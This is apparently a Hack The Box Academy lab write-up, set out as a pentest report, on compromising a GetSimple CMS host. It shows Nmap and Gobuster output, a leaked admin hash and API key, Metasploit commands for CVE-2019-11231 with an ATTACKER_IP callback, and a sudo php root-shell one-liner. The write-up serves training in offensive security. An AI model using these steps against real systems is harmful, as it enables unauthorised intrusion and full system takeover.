




This Section is a full box, so i have completed it and included the write-up below

**Difficulty:** Easy
**OS:** Linux
**Date Completed:** 2026-09-04
**Write-up Authored by:** Ian Simons
**Challenge Created by:** mrb3n8132
**Core Competencies:**
- Network Enumeration with **Nmap**
- Manual Web Enumeration
- Web Enumeration with **Gobuster**
- Vulnerability Research
- Initial Access with **Metasploit**
- Privilege Enumeration
- Privilege Escalation

---
## Overview
This Box was completed as part of the Hack the Box Academy Job Role Path "Penetration Tester" in the "Getting Started" Module. The objective of this exercise was to have students complete a box on their own with little to no assistance. In addition to Completing the assessment, a personal objective was to reduce reliance on automated exploitation frameworks and tools (namely **Metasploit**) and develop a stronger understanding of the underlying exploitation process. Although **Metasploit** was ultimately used to achieve initial access. The exercise provided valuable insight into the vulnerability, exploitation, and workflow needed for manual exploitation.
Note: Flags documented in Appendix B

---
## Vulnerability summary

| Vulnerability                               | Vulnerability Classification              | CVSS Score    | MITRE ATT&CK Technique                                              | ATT&CK Tactic        |
| ------------------------------------------- | ----------------------------------------- | ------------- | ------------------------------------------------------------------- | -------------------- |
| Authentication Bypass/Remote Code Execution | CVE-2019-11231                            | 9.8 (CVSS v3) | T1190 - Exploit Public-Facing Application                           | Initial Access       |
| Sudo Misconfiguration                       | CWE - 269 - Improper Privilege Management | N/A           | T1548.003: Abuse Elevation Control Mechanism: Sudo and Sudo caching | Privilege Escalation |

---
## Attack Path Summary
1. Performed network reconnaissance with **Nmap** and identified **OpenSSH 8.2p1** and **Apache HTTP Server 2.4.41** running on Ubuntu host
2. Conducted web application enumeration, and identified target application as **GetSimple CMS** 
3. Discovered exposed administrative account configuration file at **/data/users/admin.xml** which contained the username admin and an associated password hash
4. Discovered exposed API key in file **/data/other/authorization.xml**
5. Identified **GetSimple CMS** version in file **/data/cache/2a4c6447379fba09620ba05582eb61af.txt**
6. Research identified **CVE-2019-11231** as viable attack path for achieving remote code execution 
7. Leveraged the **Metasploit** module **exploit/multi/http/getsimplecms_unauth_code_exec** to obtain remote code execution, resulting in initial access to the target system
8. Post-exploitation enumeration revealed that the compromised account possessed **NOPASSWD** sudo privileges for **/usr/bin/php**
9. Developed and executed a PHP-based privilege escalation payload via **/usr/bin/php** using the permitted sudo configuration
10. Leveraged Misconfigured sudo permissions to obtain root-level access and achieve full system compromise.
---
## Reconnaissance
### Port Discovery
Nmap scan results
```
# Nmap 7.95 scan initiated Fri Sep  4 11:34:10 2026 as: nmap -sV -sC -oA nmap/initial -vvv -p- 10.129.147.204
Nmap scan report for 10.129.147.204
Host is up, received syn-ack (0.067s latency).
Scanned at 2026-09-04 11:34:10 EDT for 33s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCyjE3IszCWTkwVItyz5yZxbgFhlqWM5o/4ZgDpPgt3QXKAawOgZbp7tSkTV7rVtI1pWlJf+o1c8Yo2MoIrlZVoYcKF3h35k12p+vzy3ZDqzF7jL2tJ95uYfk9WuKh1B8VLJegno2zkxYTzNzYGWrG1qkV61r2UjPYWzRVcHDRrNsxxgGpUF1AJcADWEModm3jpSksUGWUbgNqLoYTPYgFNBKeURrlABB8/ykIsqXLR3wVWIC5L8uslM4+qFGkCbdV+REUlBRzIdaC54lHeTF8JhShQnOuXgPdLp06slStSKcq+V/0gKhSDqm9TQITDNwglQm6ZkqQh0j0FaMt3GMwJB4N6eoGhceV3L7gOfmXd5UK2BYZqOOwiHTR6m+HIDKPdgOMTOCyDxVGCmuW6hu5GcOE0tO7ioU5p7vHTfw9jeyoCnXSNhpEY9JR2IKHlRaIPibfG1GUP0K09J/jaSCc2Eb2yW3r19V3F/6wI7iRbTyD3Hom90p0p6OyVKJyeh20=
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCL6NQmgxEaM6Pafc7ISrlPW491jht6Zf0Lvsb4P3DAbfT3j3h1fe74WgF2xG3FngdXDc40dkHVzfYpTqqCsNrU=
|   256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPfBXQPlIkQDU20q4l5MNZxG3ixQyUahJPci3gvdgKls
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep  4 11:34:43 2026 -- 1 IP address (1 host up) scanned in 33.02 seconds


```

#### Key Open Ports and Services

| Port   | Service | Version             |
| ------ | ------- | ------------------- |
| 22/TCP | SSH     | OpenSSH 8.2p1       |
| 80/TCP | HTTP    | Apache httpd 2.4.41 |

### Web Enumeration 
During port and service Discovery, a **/robots.txt** file was flagged. Navigating to `http://10.129.147.204/robots.txt` revealed that an **/admin** page was available. `http://10.129.147.204/admin/` was the admin login portal. As no credentials had yet been identified, we ran a scan using **Gobuster** and found the following results
```
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/admin                (Status: 301) [Size: 316] [--> http://10.129.147.204/admin/]
/backups              (Status: 301) [Size: 318] [--> http://10.129.147.204/backups/]
/data                 (Status: 301) [Size: 315] [--> http://10.129.147.204/data/]
/index.php            (Status: 200) [Size: 5485]
/plugins              (Status: 301) [Size: 318] [--> http://10.129.147.204/plugins/]
/robots.txt           (Status: 200) [Size: 32]
/server-status        (Status: 403) [Size: 279]
/sitemap.xml          (Status: 200) [Size: 431]
/theme                (Status: 301) [Size: 316] [--> http://10.129.147.204/theme/]

```

Enumeration of the **/data** directory identified the file **/data/users/admin.xml** which contained the username `admin` as well as the corresponding password hash: `d033e22ae348aeb5660fc2140aec35850c4da997`. The file **/data/other/authorization.xml** was identified, which contained the API key `4f399dc72ff8e619e327800f851e9986`. Finally the file **/data/cache/2a4c6447379fba09620ba05582eb61af.txt** was identified, revealing the application was running **GetSimple CMS version 3.3.15**
### Vulnerability Research
Public vulnerability research identified CVE-2019-11231 affecting **GetSimple CMS version 3.3.15**. The vulnerability exists due to insufficient input sanitization within the **theme-edit.php** functionality, allowing arbitrary file modification by an authenticated user. 
The publicly accessible files **data/other/authorization.xml** and **data/user/admin.xml**, exposed an API key and administrator username respectively. These disclosures satisfy the conditions required to leverage the authentication bypass associated with CVE-2019-11231 making the vulnerability a viable attack path.

---
## Initial Access
### Vulnerability Details
- Description: Authentication Bypass/ Remote Code Execution
- Vulnerability Classification: CVE-2019-11231
- CVSS score: 9.8 (v3)
- MITRE ATT&CK: Initial Access - T1190: Exploit Public-Facing Application

**GetSimple CMS 3.3.15** is vulnerable to an authentication bypass which can then lead to remote code execution by modification of the **theme-edit.php** file. There is an existing **Metasploit** module for this vulnerability, which was used to gain remote code execution on the target.
#### Exploitation Steps
Based on the identified **GetSimple CMS 3.3.15** vulnerability, the **Metasploit** module **exploit/multi/http/getsimplecms_unauth_code_exec** was selected because it specifically targets CVE-2019-11231. 

1. Launch Metasploit framework
2. Select module **exploit/multi/http/getsimplecms_unauth_code_exec** targeting CVE-2019-11231 
3. Configure target and callback parameters
4. Execute the exploit and obtain a remote session
#### Key Commands / Payloads
```
# launch Metasploit Framework console
msfconsole

# select appropriate exploit module
use exploit/multi/http/getsimplecms_unauth_code_exec

# set appropriate options for module
set RHOST <TARGET_IP>
set LHOST <ATTACKER_IP>
set LPORT 4444

# run exploit
run
```

#### Proof of Access 
##### Screenshots

Figure 1: Proof of initial access. Successful exploitation of CVE-2019-11231 resulted in command execution on the target host. Session validated by confirming execution context, hostname, and operating system.
##### Session Validation Commands
```
#Check user context
whoami
id

#Verify target hostname
hostname

#Verify operating system version
 uname -a
```

---
## Privilege Escalation 
### Vulnerability Details
- Description: Writable Script Executable via Sudo
- Vulnerability Classification: CWE - 269 Improper privilege management 
- CVSS score: N/A
- MITRE ATT&CK:  Privilege Escalation - T1548.003: Abuse Elevation Control Mechanism: Sudo and Sudo caching

Enumeration of sudo privileges revealed that the user **www-data** could execute **/usr/bin/php** as root without providing a password. This allowed for the development and execution of a malicious .php file resulting in full root access.
#### Exploitation Steps
1. Check current sudo privileges
2. Create Malicious .php file
3. Execute script with sudo and obtain root privileges
#### Key Commands / Payloads
```
# check current sudo privileges
sudo -l

# create malicious script
echo "<?php system('/bin/bash'); ?>" > /tmp/root.php

# run script as root
sudo /usr/bin/php /tmp/root.php

# verify execution context
whoami

```

#### Proof of Privilege Escalation

 
Figure 2: Proof of Privilege Escalation. Successful exploitation resulted in execution within the root security context. Privileges were validated by confirming the execution context with the `whoami` command.

---
## Lessons Learned 
This box really pushed me. While I did use **Gobuster** for some web directory enumeration, I still did plenty of manual Web Enumeration. This really helped build my Web Enumeration skills, as well as improve my confidence as I am still quite new to offensive security. I would absolutely recommend this box to anyone starting out in offensive security.
- Findings, no matter how small, can lead  to significant compromise
- Research as you go, you can crack a password hash, but is that always needed? In this box it was not and jumping straight to cracking a hash would be unnecessary, and potentially waste time
- Don't be afraid to use **Metasploit** for research, sometimes modules will help you identify missing pieces you still need
---
## Appendix
### Appendix A
#### Tools Used 
| Tool                 | Purpose                                                                       |
| -------------------- | ----------------------------------------------------------------------------- |
| Nmap                 | Network Reconnaissance, Service Discovery, and version detection              |
| Gobuster             | Web Enumeration                                                               |
| SearchSploit         | Vulnerability research and exploit identification                             |
| Metasploit Framework | Exploitation, session management, post-exploitation, and privilege escalation |

### Appendix B
#### Flags found

User Flag:
700\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*1d8


Root Flag:
f1f\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*842

### Appendix C
#### Supporting Evidence
No additional supporting evidence was required beyond the artifacts included throughout this write-up